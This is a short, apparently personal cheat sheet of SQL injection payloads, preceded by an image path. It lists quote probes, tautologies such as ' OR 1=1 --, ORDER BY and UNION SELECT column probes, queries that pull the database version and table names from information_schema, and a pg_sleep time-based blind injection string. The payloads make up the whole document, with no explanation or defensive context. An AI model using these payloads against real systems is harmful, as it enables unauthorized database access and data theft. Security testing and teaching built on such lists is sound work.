

'
""
\
/
' -- +
' OR 'a'='a
' 'a
1' ORDER BY 1 'a
1' UNION SELECT 1 'a
1' UNION ALL SELECT 1,2,3 'a
released=0
' OR 1=1 --
' or 1=1 --
UNION SELECT 'abc' FROM dual - ORACLE
'+UNION+SELECT+'abc','def'#     -   MySQL and Microsoft
'+UNION+SELECT+@@version,+NULL#
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
TrackingId=x'||pg_sleep(10)--
